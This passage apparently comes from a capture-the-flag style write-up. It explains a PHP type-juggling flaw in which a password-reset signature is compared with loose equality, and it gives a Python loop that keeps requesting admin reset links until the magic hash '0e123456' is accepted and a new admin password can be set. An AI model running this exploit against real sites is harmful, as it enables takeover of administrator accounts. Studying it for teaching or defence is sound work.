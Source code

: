 ### type juggling

now that i've abused the lax file extension restrictions, i can move on to the next vulnerability. i noticed a flaw in the password reset mechanism: **type juggling**. this allows an attacker to bypass the password reset token check and reset the administrator's password.

```php
public function checkResetLink($userId, $time, $sig) {
    $user = User::find($userId);
    if (empty($user->resetToken)) {
        return false;
    } else {
        return $this->generateSig($user->id, $user->resetToken, $time, $user->password) == $sig;
    }
}

public function generateSig($id, $resetToken, $time, $password) {
    return substr(hash("sha256", $id . "|" . $resetToken . "|" . $time . "|" . $password), 0, 8);
}
```

the reset token is being compared using a weak comparison operator `==`. weak comparison can treat two values as equal if they evaluate to the same number, even when they're strings. hence, i can "force" a comparison to return true by using a **magic hash**. for example, the string `0e123456` is considered `0` when evaluated as a number. if the reset token on the server is also weakly compared and happens to be evaluated as `0`, i can bypass the token check!

i created two functions for the exploit: `ResetLink()` and `Test()`. `ResetLink()` sends a password reset request to the server using the `forgot password` endpoint. it submits the admin email to initiate the reset process.

`Test()` checks if the server accepts the password reset link by making a `GET` request to a URL crafted with a **timestamp** `ts` and the **magic hash** `0e123456`. hopefully, it will be interpreted as scientific notation and lead to a false positive.

```python
def ResetLink():
    session.post(target + '/forgot', data={'email': email})

def Test():
    resp = session.get(f'{target}/reset/1/{ts}/0e123456')
    if "Reset your password below" in resp.text:
        return True
    else:
        return False
```

all i need to do now is to repeatedly request a password reset link using the admin's email. the `Test()` function will check if the **magic hash** URL is accepted, and, if so, a new password will be submitted, along with a confirmation of success.

```python
while True:
    ResetLink()
    if Test():
        session.post(f'{target}/reset/1/{ts}/0e123456', data={'password':password})
        print('hell yeah brother!')
        break
```
